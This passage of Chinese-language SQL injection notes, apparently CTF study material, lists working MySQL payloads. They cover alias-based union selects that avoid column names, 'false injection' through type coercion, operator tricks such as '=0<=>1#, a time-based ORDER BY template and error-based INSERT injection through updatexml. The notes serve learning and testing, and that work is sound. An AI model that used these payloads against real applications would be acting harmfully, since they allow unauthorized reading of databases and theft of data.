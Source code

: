 ![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336382-1b8a42e1-0c81-4293-b44d-23147472ceeb.png#id=u3GrT&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
末尾的 a 可以是任意字符，用于命名

当然，多数情况下，反引号会被过滤。当反引号不能使用的时候，可以使用别名来代替：

```python
select b from (select 1,2,3 as b union select * from admin)a;
```

然后也可以用join爆出列名

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336478-a79e1aaa-9e3a-41d8-a268-5465d934f866.png#id=ajQfT&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

无join的时候判断列数可以这样一个个'1'去加，直到返回自己预期的结果

```python
id=0^((select * from f1ag_1s_h3r3_hhhhh)>(select '1','l'))
```

## False 注入利用

这里利用了只要字符串和数字进行运算就会转换成0，而任何字符串和0比较都是相等的就能全部查询出来了

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336595-4599256f-21d2-4f8c-8673-6e1bd241a167.png#id=ATe1r&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336692-889011a7-6715-42a8-bbe6-a693eb16f0a4.png#id=hah9j&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

这里可以涉及的运算符号有

```python
+   -  *  /  %  &  |  ^     这里的|和^都比较好用。比如"aa"|0返回的值是0，可以查询出结果，当是"aa"|1就没有结果了。^是同样的道理
```

另外一些组合的字符也行

```
安全等于：<=>   '=0<=>1# 拼接的语句：where username=''=0<=>1#'
不等于<>(!=)     '=0<>0# 拼接的语句：where username=''=0<>0#'
大小于>或<    '=0<>0# 拼接的语句：where username=''=0<>0#'
其他
'+1 is not null#  'in(-1,1)#  'not in(1,0)#  'like 1#  'REGEXP 1#  'BETWEEN 1 AND 1#  'div 1#  'xor 1#  '=round(0,1)='1  '<>ifnull(1,2)='1
```

## oder by注入

注入模板

```java
select * from user order by if(1=1,sleep(1),1);
```

## INSERT注入

```python
mysql> insert into users value(1,updatexml(1,concat(0x7e,database(),0x7e),1),1);
ERROR 1105 (HY000): XPATH syntax error: '~security~'
```
